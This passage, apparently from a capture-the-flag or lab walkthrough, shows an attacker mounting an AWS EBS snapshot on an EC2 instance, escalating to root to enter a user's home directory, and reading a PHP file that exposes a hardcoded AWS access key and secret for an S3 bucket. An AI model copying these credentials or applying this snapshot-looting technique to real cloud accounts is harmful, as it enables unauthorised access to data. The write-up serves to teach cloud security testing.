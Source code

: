   

In order to mount the volume xvdf1 which is the snapshot volume we have created, we need to create a volume with any random name let’s assume `pwnedlabs` and with the following command `sudo mount -t ext4 /dev/xvdf1 pwnedlabs`  we can do the mounting process and now we can able to list out the mounted files 

  

```sh
[ec2-user@ip-172-31-85-238 ~]$ mkdir pwnedlabs
[ec2-user@ip-172-31-85-238 ~]$ sudo mount -t ext4 /dev/xvdf1 pwnedlabs
[ec2-user@ip-172-31-85-238 ~]$ ls pwnedlabs
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var
[ec2-user@ip-172-31-85-238 ~]$ 
```

  

Exploring the mounted files inside the `/home`  we see there is a user called `intern`  and inside there is folder called `practice-files`  and a file named `s3_download_file.php`  

  

```sh
[ec2-user@ip-172-31-85-238 pwnedlabs]$ cd home/
[ec2-user@ip-172-31-85-238 home]$ ls
intern  ubuntu
[ec2-user@ip-172-31-85-238 home]$ cd intern
-bash: cd: intern: Permission denied
[ec2-user@ip-172-31-85-238 home]$ sudo su
[root@ip-172-31-85-238 home]# cd intern
[root@ip-172-31-85-238 intern]# ls
practice_files
[root@ip-172-31-85-238 intern]# cd practice_files/
[root@ip-172-31-85-238 practice_files]# ls
s3_download_file.php
```

  

viewing the file results in the disclosure of `AWS access key`  and `Secret key`  which will have access to the following s3 bucket named `ecorp-client-data`

  

```sh
[root@ip-172-31-85-238 practice_files]# cat s3_download_file.php 
<?php
  $BUCKET_NAME = 'ecorp-client-data';
  $IAM_KEY = 'AKIARQVIRZ4UDSDT72VT';
  $IAM_SECRET = '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';
  require '/opt/vendor/autoload.php';
  use Aws\S3\S3Client;
  use Aws\S3\Exception\S3Exception;
 
  $keyPath = 'test.csv'; // file name(can also include the folder name and the file name. eg."member1/IoT-Arduino-Monitor-circuit.png")
    
//S3 connection 
  try {
    $s3 = S3Client::factory(
      array(
        'credentials' => array(
          'key' => $IAM_KEY,
          'secret' => $IAM_SECRET
        ),
        'version' => 'latest',
        'region'  => 'us-east-1'
      )
    );
```